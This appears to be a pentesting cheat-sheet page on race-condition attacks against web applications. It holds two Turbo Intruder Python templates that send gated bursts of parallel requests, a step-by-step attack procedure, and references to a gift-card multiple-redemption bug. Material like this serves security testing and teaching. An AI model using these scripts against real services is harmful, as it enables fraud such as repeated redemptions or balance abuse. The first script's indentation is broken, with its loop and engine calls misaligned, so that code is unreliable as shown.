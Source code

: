 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

* [Tools](#tools)
* [Turbo Intruder Examples](#turbo-intruder-examples)
* [References](#references)

## Tools

* [Turbo Intruder - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.](https://github.com/PortSwigger/turbo-intruder)

## Turbo Intruder Examples

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"

## Turbo Intruder 2 Requests Examples
This follwoing template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.
```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle | 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
